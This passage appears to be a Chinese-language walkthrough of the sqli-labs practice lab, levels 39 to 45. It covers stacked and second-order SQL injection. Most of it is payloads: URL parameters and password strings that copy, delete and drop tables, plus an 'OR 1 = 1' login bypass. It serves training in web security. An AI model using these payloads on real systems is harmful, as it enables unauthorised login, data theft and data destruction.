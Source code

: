 ```
?id=1';DROP TABLE WhiteMoon;--+
```

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718141003709.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718141003709.png)

## Less-39,41

**堆叠注入-数字型**

#### 

```
?id=1;CREATE TABLE WhiteMoon LIKE users;--+
?id=1;INSERT INTO WhiteMoon SELECT * FROM users;--+
?id=1;DELETE FROM WhiteMoon;--+
?id=1;DROP TABLE WhiteMoon;--+
```

## Less-40

**-堆叠注入-')**

?id=1 正常

?id=1' 不显示

?id=1" 正常

id=1) 不显示

id=1') 不显示

id=1"） 正常

id=1')) 不显示

```
?id=1');CREATE TABLE WhiteMoon LIKE users;--+
?id=1');INSERT INTO WhiteMoon SELECT * FROM users;--+
?id=1');DELETE FROM WhiteMoon;--+
?id=1');DROP TABLE WhiteMoon;--+
```

## Less-42,43,44,45

**堆叠注入/二次注入**

用户名测试什么都没有，密码测试直接登录成功

a' OR 1 = 1#

![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718141121571.png](https://gitee.com/xvshifu/pic-go/raw/master/img/20250718141121571.png)

可以在已知某个用户的用户名的条件下使用万能密码夺取用户，也可以使用二次注入（Less-24）进行攻击。由于密码参数没有进行防御，可以在该字段测试堆叠注入。使用 Less-38 的测试流程，每次登陆时完成一步堆叠注入。

```
a' OR 1 = 1;CREATE TABLE WhiteMoon LIKE users;#
a' OR 1 = 1;INSERT INTO WhiteMoon SELECT * FROM users;#
a' OR 1 = 1;DELETE FROM WhiteMoon;#
a' OR 1 = 1;DROP TABLE WhiteMoon;#
```
